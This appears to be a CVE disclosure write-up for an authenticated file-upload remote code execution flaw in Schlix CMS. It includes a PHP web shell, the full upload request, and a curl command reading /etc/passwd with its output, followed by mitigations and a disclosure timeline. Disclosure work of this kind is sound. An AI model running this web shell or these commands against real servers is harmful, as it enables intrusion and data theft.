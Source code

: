 ```yaml
---
title: Schlix CMS v2.2.8-1 - Remote Code Execution (CVE-2023-31505)
tags: [CVE, 0day, RCE, schlix, CMS]
style: border
color: warning
description: ""
---
```


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.

![](../assets/img/cve-2023-31505/1.png)

Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.

![](../assets/img/cve-2023-31505/2.png)

But we can see that it does not accept this type of files.

![](../assets/img/cve-2023-31505/3.png)

But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:

![](../assets/img/cve-2023-31505/4.png)

In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:

![](../assets/img/cve-2023-31505/6.png)

Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```


Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```

#### Result of the evidence
![](../assets/img/cve-2023-31505/7.png)

## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Timeline
- 18/04/2023 - The vendor is notified without response.
- 11/05/2023 - MITRE is notified and the CVE identifier is assigned.
- 29/01/2024 - MITRE is notified of the status, fulldisclosure is authorized. 
- 30/01/2024 - NVD published the first details for [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- 31/01/2024 - Estimated the CVSS score as HIGH

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)